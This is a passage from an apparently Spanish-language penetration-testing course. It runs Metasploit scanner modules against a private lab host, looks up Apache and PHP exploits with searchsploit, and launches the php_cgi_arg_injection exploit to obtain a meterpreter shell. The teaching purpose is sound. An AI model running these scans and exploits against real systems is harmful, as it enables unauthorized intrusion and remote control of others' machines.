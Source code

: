 ![Run Set](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/run-set.png?raw=true)

Tenemos 6 directorios. Revisar su contenido podría darnos una ventaja para hackear nuestro objetivo. Probemos con otro módulo, `files_dir`:

```bash
use auxiliary/scanner/http/files_dir

show options

set RHOST 192.168.1.49

run
```

![Run RHOST](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/run-rhost.png?raw=true)

Una vez más, estos resultados podrían marcar la diferencia y deberíamos echarles un vistazo. Otro módulo de interés id `options`, `robots_txt` y `verb_auth_bypass`:

```bash
use auxiliary/scanner/http/verb_auth_bypass

show options

set RHOST 192.168.1.49

run
```

![Run proxies](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/run-proxies.png?raw=true)

> Y muchos módulos más que te invito a probar.

Hagamos uso de la información que recopilamos.Busquemos en exploitDB Apache con la versión de PHP:

```bash
$ searchsploit apache | grep 5.4.2
``` 

![Apache1](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/apache1.png?raw=true)

Se encontró ejecución remota de código CGI. Explotémoslo:

```bash
use exploit/multi/http/php_cgi_arg_injection*

set RHOST 192.168.1.49

run 
```

![Run Exploit](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/run-exploit.png?raw=true)

¡¡Tenemos un shell meterpreter!! ¡¡¡Happy hacking!!!
